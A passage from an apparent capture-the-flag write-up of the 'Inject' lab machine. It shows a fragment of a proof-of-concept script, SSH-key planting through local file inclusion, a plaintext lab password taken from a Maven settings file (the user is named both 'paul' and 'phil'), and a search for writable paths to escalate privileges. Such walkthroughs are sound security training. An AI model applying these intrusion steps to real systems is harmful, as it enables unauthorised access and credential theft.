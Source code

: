 ```python
if __name__ == '__main__' :
    try:
        cmd1 =sys.argv[1]
        cmd2 = sys.argv[2]
        t = threading . Thread ( target = scan ( cmd1 , cmd2 ) ) 
        t.start()
    except:
        print ( 'Usage:' )
        print('python poc.py url.txt')
        pass
```

Confirming the key has been added to the `authorized_keys` file for the `frank` user via LFI:

![](/img/Inject_-_Seasonal_9e3607466f6a4ad49fada783b796669f/Untitled_8.png)

Successfully doing SSH into the machine as `frank` user:

![](/img/Inject_-_Seasonal_9e3607466f6a4ad49fada783b796669f/Untitled_9.png)

From the LFI itself, we were able to retrieve the file `/home/frank/.m2/settings.xml` and `paul` user password,

```xml
-bash-5.0$ cat .m2/settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

Using the password, we can change to user `paul` 

![](/img/Inject_-_Seasonal_9e3607466f6a4ad49fada783b796669f/Untitled_10.png)

Further looking into the writable folder and files, we can see that `/opt/automation/tasks` is writable by `staff` group member and `paul` is a member of that group.

```asm
bash-5.0$ find / -writable 2>/dev/null | grep -v proc

[..snip..]

/tmp/.XIM-unix
/tmp/.font-unix
/tmp/.X11-unix
/tmp/.Test-unix
/tmp/.ICE-unix
/opt/automation/tasks
/etc/systemd/system/nginx.service
/etc/systemd/system/sysstat.service
/var/tmp
/var/crash
```
